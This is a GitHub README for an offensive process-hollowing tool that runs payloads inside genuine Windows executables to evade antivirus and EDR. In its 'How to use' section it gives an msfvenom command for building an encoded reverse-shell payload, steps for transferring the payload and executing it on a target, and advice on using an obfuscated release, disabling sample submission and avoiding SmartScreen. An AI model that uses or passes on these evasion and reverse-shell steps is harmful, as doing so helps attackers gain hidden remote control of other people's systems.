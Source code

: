# Process-Hollowing-RedTeamOps
### Red Team Operation's Defense Evasion Technique for executing payload without raising flags on Target System.

## Kindly read [How To Use](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/blob/main/README.md#how-to-use) !! - ***This is a Defense Evasion Technique so with time we add some suggestions for Red Team Ops to fulfill their primary objectives, so you can work Smoothly !!***

## ⚠️Note - **This Binary made for Red Team Operations and user is only be responsible for the use, There's no liability of the Owner.**

# ***Made With ❤️ in 🇮🇳!!!***

### Credit of these Images goes to  their respective creators :relaxed:!!

![hollowing1-1_](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/dd3cbd07-ebf0-447e-82f7-9b71384f9b00) 

![491809_1_En_10_Fig27_HTML](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/f972fda2-6e65-4bb8-86e5-5f984619f8fe)


![90540-1sncmwnz19drbfqzllk_d5w](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/cdcee61d-1672-4bf6-9acc-2b952747e1cf)



We have both x86 and x64 bit release as you want. **we strongly suggest x64-bit release if you're confused about compiling manually.**

We suggest to use directly compiled executables as in some situations it depends on your compiler functionality. Both executables are stable and tested several times.


**If you wish to Compile x64 bit relese on Kali with cross-compiler - x86_64-w64-mingw32-gcc.** 

**For 32-bit - Mingw for Windows.**

# Index

* [Demo](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/blob/main/README.md#demo)

* [How to use](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/blob/main/README.md#how-to-use)

## Tools Resources and skills used 

1. ChatGPT for researching about required Windows API and functionality.

2. Visual Studio Code - Linux and Windows.

3. Cross-compiler.
4. Process-Hollowing Technique working.

5. Deep-imagination .
6. Error-handling.
7. Programming Skills.
8. Time.
9. Defeating Failures.
10. Tons of Research.
11. Dedication.
12. Smart Work.

## Demo

![windows-hollow](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/cbc55b11-94c1-4416-a200-43f76abc9baf)

![kali](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/4a258dcc-0f40-4ec7-9422-1422a97686c9)

![win-update](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/a9421032-566d-49f0-a0a0-9857395a5624)


![firewall](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/96c3d3cd-6708-4640-83f0-e44c4a642907)


![windef-2](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/ca002758-e1e4-43b3-be87-7a59242f80f5)

![windows-def](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/dc8b587a-10f4-4408-8203-539640b50cde)

# ⚠️How to use

## :warning: Note - Sometimes you have to Re-run the program because of Memory Issues. But do not worry, You'll get the shell on Re-run !!!  :nazar_amulet:

### Recommended to Turn-Off "Automatic Sample Submission" If you can or using in the testing environment.

***1. Generate a .bin file only - You can use C2 servers and metasploit too or any you want***

### Example - msfvenom -p windows/x64/shell_reverse_tcp LHOST=< IP > LPORT=< PORT > -f raw -i < iterations as you want for evasion > -e < encoder you want to use > > shell.bin - **x64-Bit**
  
 **2. Obfuscation is mainly your work to do as per your operation's requirement and the other one's? - WE'LL HANDLE!!!**
  
  ***3. Transfer Both Payload and Binary to Target System.***
  
  *4. Execute, But remember .bin files can evade better as per my Personal Experience so, just make your Payload Obfuscated for better Defense Evasion.*
  
  **5. After Execution, Payload will be run as your specified genuine windows executable ( system32's too ).**
  
  ***6. If you're injecting to custom binary - It might fails due to Memory allocation issue , still depends on your Privilege and many 3rd
level factors. But you can give it a try - In some cases it will work !! :nazar_amulet:***

***7. As we know EDR's and AV signatures keep updating, so we created an obfuscated release to assist you and have tested on the Latest Updated Windows . !!!***


> [!IMPORTANT]
## ⚠️**Keep few things in mind when using obfuscated release -**  

 * Never Directly Download Executable via Github on the target system, I found some bytes were missing - Technical Issue  + WindowsSmartScreen even mark genuine executables malicious too while downloading .EXE from Github. ( That's why Non-Malicious like WinPEAs , which is for PrivEsc too faces some windowsSmartScreen blockings ) 

* Best way is to Download from Github to your Kali Linux or any Attacker Machine first and then transfer it to Target System via C2 Channels or any you like. ( Invoke-WebRequest too )

* In this case you'll not face any problems regarding missing bytes or EDR. 

* Sometimes you have to apply many other ways to Bypass EDR and there's not always be a Signature-Patch issue. But there might be a Feature or some Technical problems like missing bytes of the binary, which restricting us. 
